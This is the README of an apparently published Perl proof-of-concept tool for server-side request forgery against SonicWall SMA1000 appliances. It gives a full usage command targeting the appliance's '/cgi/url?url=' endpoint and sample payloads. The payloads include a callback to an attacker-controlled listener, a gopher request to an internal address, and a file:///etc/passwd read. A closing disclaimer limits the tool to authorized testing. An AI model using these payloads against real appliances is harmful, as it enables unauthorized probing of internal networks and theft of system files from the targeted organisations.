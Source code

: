 # ssrf_advanced.pl – Advanced SSRF PoC for SonicWall SMA1000

**Author:** TURKI ALNAFIE  
**Created:** 2025-06-18

---

## 🛠 Usage

```bash
perl ssrf_advanced.pl \
  --target   https://SMA_HOST_OR_IP          \
  --endpoint '/cgi/url?url='                 \
  --payloads payloads.txt                    \
  --threads  10                              \
  --timeout  5                               \
  --verbose
```

---

## 🧪 Payloads Format

```text
# payloads.txt
http://YOUR_LISTENER:8000/
gopher://10.0.2.15/_HEAD / HTTP/1.1\r\nHost:10.0.2.15\r\n\r\n
file:///etc/passwd
```

- Each payload is a potential SSRF target.
- Ensure each payload is on a new line.
- Comment lines (starting with `#`) are ignored.

---

## 📄 Logging & Output

- **Verbose mode** prints each request and response summary to STDOUT.
- **Non-200 responses** are saved to a file named `ssrf_errors.log`.

Example log entry:
```text
Wed Jun 18 22:15:03 2025 | 403 | https://10.0.0.5/cgi/url?url=http%3A%2F%2FYOUR_LISTENER%3A8000%2F
```

---

> ⚠️ **Note:** This tool is for authorized security testing only. Misuse may violate laws or policies.
